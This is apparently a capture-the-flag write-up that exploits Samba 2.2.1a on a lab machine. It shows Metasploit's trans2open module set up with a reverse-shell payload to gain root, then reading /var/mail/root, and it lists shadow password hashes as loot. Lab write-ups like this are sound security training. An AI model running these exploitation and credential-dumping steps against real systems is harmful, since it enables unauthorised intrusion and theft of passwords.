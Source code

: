 ![037e397b76f4caac1f3932405b9f48f4.png](resources/037e397b76f4caac1f3932405b9f48f4.png)


It provided me the version of the Samba service that was — “Samba 2.2.1a”. With the SMB version identified as Samba 2.2.1a, I simply googled for relevant exploits targeting this version.


![100cc3e90689d0da60dc6ce5c34c50e7.png](resources/100cc3e90689d0da60dc6ce5c34c50e7.png)

I came across the "Samba trans2open Overflow (Linux x86)" exploit, which is designed for Samba versions 2.2.0 to 2.2.8 on Linux systems and is a strong candidate for exploiting this target.

![6d110b9c3008bb41f71d9b42fb85a864.png](resources/6d110b9c3008bb41f71d9b42fb85a864.png)

---


## Exploitation

1. After identifying the appropriate exploit, I returned to Metasploit to search for available modules targeting Samba.

![a662268e766ba36c5bf6891d3295f256.png](resources/a662268e766ba36c5bf6891d3295f256.png)

Now I will set a suitable reverse shell payload and configured RHOST to the target’s IP to prepare the exploit for execution.

````
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.242.73
RHOSTS => 192.168.242.73
msf6 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp

````

Then simply run the exploit by typing `run` orr `exploit` if you wanna look cool and voilla!, I get the root shell.

![a86f40a40eef8a1678980e01d583c8df.png](resources/a86f40a40eef8a1678980e01d583c8df.png)

2. We can now read the `/var/mail/root` file to complete the challenge:

````
cat /var/mail/root
````

![ba3556eb8fa7411d80643b3cca5d718c.png](resources/ba3556eb8fa7411d80643b3cca5d718c.png)


---
## Loot

### Hashes
````
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
````

---
